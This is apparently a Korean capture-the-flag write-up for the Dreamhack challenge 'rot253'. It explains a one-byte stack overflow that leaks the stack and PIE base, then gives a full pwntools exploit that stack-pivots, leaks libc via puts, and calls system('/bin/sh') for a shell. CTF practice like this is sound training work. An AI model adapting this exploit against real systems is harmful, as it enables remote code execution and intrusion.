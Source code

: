 ```C
read(0, pt, 153);
```
153 : SFP + RET 1바이트 overflow -> 스택, pie_base leak 가능

foo 함수에서 main으로 돌아갈 때 pie_base + 0x129b로 돌아가므로,
pie_base + 0x12??에 쓸만한 곳이 있는지 찾아본다.

### 1. read
foo 함수의 마지막에는 memset을 한다.
![[Pasted image 20240920230208.png]]
rax가 스택의 특정 주소, edx가 0x80을 저장하고 있다. 이 때 0x12b8로 돌아간다면?

![[Pasted image 20240920230324.png]]
그 주소에 0x80 만큼 쓸 수 있다.
-> 스택피보팅으로 해결

```python
from pwn import *

context.log_level = 'debug'

p = remote('host3.dreamhack.games', 24510)
#p = process('./rot253')
l = ELF('./libc.so.6')
e = ELF('./rot253')

def de(buf: bytes):
    src = bytes.fromhex(buf.decode())
    dst = b''
    for i in range(len(src)):
        dst += bytes([(src[i] + 3) % 0x100])
    return dst

def encrypt(payload: bytes):
    p.sendlineafter(b'> ', b'1')
    p.sendafter(b'plaintext? ', payload)
    p.recvuntil(b'ciphertext (hexstr): ')
    return de(p.recvline()[:-1])

rbp = u64(encrypt(b'a' * 0x8f + b'\x01')[0x90:].ljust(8, b'\x00'))
print("rbp = " + hex(rbp))

pie_base = u64(encrypt(b'a' * 0x8f + b'\x01' + b'b' * 8)[0x98:].ljust(8, b'\x00')) - (0x55555555529b - 0x555555554000)
print("pie_base = " + hex(pie_base))

pop_rdi_rbp = pie_base + 0x000000000000132e
pop_rdx_rsi_rdi_rbp = pie_base + 0x000000000000132c
ret = pie_base + 0x000000000000101a
leave_ret = pie_base + 0x00000000000012d2
puts_plt = pie_base + e.plt['puts']
puts_got = pie_base + e.got['puts']
read_plt = pie_base + e.plt['read']
read_got = pie_base + e.got['read']

encrypt(b'a' * 0x8f + b'\x01' + p64(rbp - 0x130 + 2) + b'\xb8')
p.sendlineafter(b'> ', b'3')
payload = b'yy'
payload += p64(rbp - 0x300) + p64(pop_rdi_rbp) + p64(puts_got) + p64(rbp - 0x300) + p64(puts_plt)
payload += p64(pop_rdx_rsi_rdi_rbp) + p64(0x100) + p64(rbp - 0x300) + p64(0) + p64(rbp - 0x300) + p64(read_plt) + p64(leave_ret)
p.send(payload)
l.address = u64(p.recvn(6).ljust(8, b'\x00')) - l.sym['puts']
print("libc_base = " + hex(l.address))

binsh = list(l.search(b'/bin/sh'))[0]
system = l.sym['system']
payload = p64(rbp - 0x400) + p64(pop_rdi_rbp) + p64(binsh) + p64(rbp - 0x400) + p64(system)
p.send(payload)

p.interactive()
```
